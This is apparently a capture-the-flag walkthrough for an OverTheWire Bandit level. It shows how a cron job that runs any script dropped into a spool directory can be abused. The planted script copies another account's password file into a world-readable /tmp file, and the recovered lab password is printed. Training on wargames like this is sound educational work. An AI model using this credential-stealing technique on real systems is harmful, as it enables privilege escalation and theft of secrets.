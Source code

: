 **Level Goal:** A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed. **NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

```bash
$ cd /etc/cron.d/
$ cat cronjob_bandit24
'@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null'
$ cat /usr/bin/cronjob_bandit24.sh
'#!/bin/bash

myname=$(whoami)
cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done'

$ touch /tmp/my_pass
$ chmod 777 /tmp/my_pass
$ cd /var/spool/bandit24/foo
$ vim my_script.sh
```

Put the folowing content:

```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/my_pass
```

Make it executable for bandit24 (the user running the script).

```bash
chmod 777 /var/spool/bandit24/foo/my_script.sh
```

After a minute...

```bash
$ cat /tmp/my_pass
'VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar'
```

## [Level 24 → Level 25](https://overthewire.org/wargames/bandit/bandit25.html)
